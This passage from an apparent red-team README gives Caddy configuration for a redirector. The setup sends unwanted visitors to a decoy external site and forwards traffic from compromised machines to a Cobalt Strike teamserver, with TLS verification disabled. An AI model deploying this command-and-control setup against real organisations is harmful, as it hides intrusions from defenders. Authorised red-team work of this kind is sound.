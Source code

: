              redir https://cultofthepartyparrot.com/ #redir to another site like, for example, an external supplier website which provides services for the company you are targeting ( sneaky move I know..) 
        }

	 	# Reverse proxy to our cobalt strike server on port 443 https
    	import reverse_proxy/cobalt.caddy
	}
}
```

#### REVERSE PROXY folder

The reverse proxy directly instruct the https stream connection to forward the request to the teamserver if the rules above are respected.

#### Cobalt Strike redirector to HTTPS endpoint

```
reverse_proxy https://<cobalt_strike_endpoint> {
    
	# This directive put the original X-Forwarded-for header value in the upstream X-Forwarded-For header, you need to use this configuration for example if you are behind cloudfront in order to obtain the correct external ip of the machine you just compromised
    header_up X-Forwarded-For {http.request.header.X-Forwarded-For}
	
	# Standard reverse proxy upstream headers
	header_up Host {upstream_hostport}
    header_up X-Forwarded-Host {host}
    header_up X-Forwarded-Port {port}
    
	# Caddy will not check for SSL certificate to be valid if we are defining the <cobalt_strike_endpoint> with an ip address instead of a domain
	transport http {
        tls
        tls_insecure_skip_verify
    }
}
```
#### WWW

 This folder is reserved if you want to put a website in here and manually categorize it
 
 Or..
 
 take a cue from those who do things better than we do:
 
 https://github.com/mdsecactivebreach/Chameleon
 
#### Starting Caddy

Once started, caddy will automatically obtain the SSL certificate. Remember to start Caddy in the same folder where you placed your `Caddyfile`!

```bash
sudo caddy start
```